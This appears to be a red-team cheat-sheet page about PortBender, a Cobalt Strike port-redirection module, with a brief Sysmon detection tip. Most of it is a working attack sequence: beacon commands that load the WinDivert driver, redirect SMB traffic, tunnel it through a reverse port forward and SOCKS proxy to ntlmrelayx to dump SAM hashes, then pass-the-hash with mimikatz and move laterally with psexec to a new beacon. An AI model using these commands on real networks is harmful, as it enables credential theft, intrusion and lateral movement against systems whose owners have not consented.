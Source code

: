 
## Command
``````beacon
beacon> help PortBender
Redirect Usage: PortBender redirect FakeDstPort RedirectedPort
Backdoor Usage: PortBender backdoor FakeDstPort RedirectedPort Password
Examples:
 PortBender redirect 445 8445
 PortBender backdoor 443 3389 praetorian.antihacker

beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
``````

## Detection
One of the main indicators of this activity is the driver load event for WinDivert.  You can find driver loads in Kibana using Sysmon Event ID 6.  Even though the WinDivert driver has a valid signature, seeing a unique driver load on only one machine is an anomalous event.

>event.module: sysmon and event.code: 6 and not file.code_signature.subject_name: "Amazon Web Services, Inc."

As hinted above, the PortBender CNA uses the [bdllspawn](https://www.cobaltstrike.com/aggressor-script/functions.html#bdllspawn) function to spawn a new process and inject the reflective DLL into.  By default, this is rundll32 and will be logged under Sysmon Event ID 1.

## [[NTLM Relaying]]
1. Upload WinDiver64.sys driver to `C:\Windows\system32\drivers`
2. Redirecting SMB to 8445
3. Create a pfwd to relay 8845 to the C2 server with [[ntlmrelayx]] running
4. Start a socks4 on 1080 so SMB can go through
5. NTLM relay the smb connection to dump local SAM hashes
6. Use via [[Pass-the-Hash]] or crack via [[Hashcat]]

Load `PortBender.cna`
``````beacon
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> pwd
[*] Current directory is C:\Windows\system32\drivers

beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445
beacon> rportfwd 8445 127.0.0.1 445
[+] started reverse port forward on 8445 to 127.0.0.1:445

beacon> socks 1080
[+] started SOCKS4a server on: 1080

proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server
``````

Local NTLM hashes could then be cracked or used with [[Pass-the-Hash]].
``````beacon
beacon> mimikatz sekurlsa::pth /user:Administrator /domain:edu.evil.corp /ntlm:b423cdd3ad21718de4490d9344afef72
beacon> steal_token 21244
beacon> jump psexec64 srv2 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_a3) on srv2 via Service Control Manager (\\srv2\ADMIN$\1985e43.exe)
Started service 3695e43 on srv2
[+] established link to child beacon: 10.10.17.68
``````

```meta
requirements: admin
results: 
oss: #linux
source: https://github.com/praetorian-inc/PortBender
description: TCP Port Redirection Utility for Cobalt Strike
undetected: 
```